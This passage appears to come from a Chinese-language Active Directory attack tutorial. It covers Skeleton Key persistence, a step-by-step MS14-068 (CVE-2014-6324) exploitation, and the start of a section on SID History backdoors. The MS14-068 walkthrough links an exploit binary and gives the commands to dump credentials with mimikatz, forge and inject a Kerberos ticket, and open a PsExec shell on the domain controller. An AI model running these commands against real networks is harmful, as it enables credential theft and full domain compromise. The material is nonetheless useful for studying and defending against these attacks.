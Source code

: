 PS：因为 Skeleton Key 是被注入到 lsass.exe 进程的，所以它只存在于内存中，如果域控制器重启，注入的 Skeleton Key 将会失效。

### [MS14-068（CVE-2014-6324）域控提权](#toc_ms14-068-cve-2014-6324)

#### [漏洞利用前提](#toc__6)

-   域控没有打 MS14-068 的补丁（KB3011780）
-   打下一台加入域的计算机
-   拿到这台计算机的域用户密码和 sid

#### [工具下载](#toc__7)

Ms14-068.exe 下载地址：[https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068](https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068)

PSexec 下载地址：[https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe](https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe)

（PsExec 是 Microsoft 提供的通用系统管理工具，可用于远程访问目标主机。PsExec 不会要求您在 PC 上安装客户端程序或在远程主机上安装其他软件。）

#### [复现](#toc__8)

```bash
whoami /all
或者
mimikatz  # privilege::debug
mimikatz  # sekurlsa::logonpasswords
得到域用户 sid 和明文密码
```

利用 ms14-068.exe 生成伪造的 kerberos 协议证书

```bash
MS14-068.exe -u <username>@<domainname> -p <password> -s <usersid> -d <domainControlerAddr> 
MS14-068.exe -u 域用户名@域控名 -p 域用户密码 -s 域用户 sid -d 域 ip
```

然后利用 kerberos 模块写入证书

```bash
mimikatz # kerberos::ptc TGT_<username>@<domainname>.ccache
```

写入成功即可用 PsExec.exe 以管理员权限运行链接域控

```bash
psecec64.exe \\<主机名称>    cmd.exe 
```

### [SID Hsitory 后门](#toc_sid-hsitory)

#### [SID（安全标识符）](#toc_sid_1)

在 Windows 操作系统中，系统使用安全标识符来唯一标识系统中执行各种动作的实体，每个用户有 SID，计算机、用户组和服务同样也有 SID，这些 SID 互不相同，保证所标识实体的唯一性。

SID 一般由以下组成：

```bash
S 表示 SID  SID 始终以 S 开头
1 表示版本  该值始终为 1
5 表示 Windows 安全权威机构
21-巴拉巴拉  是子机构值 通常用来表示并区分域
1128 为相对标识符 RID  如 域管理员组的 RID 为 512
```
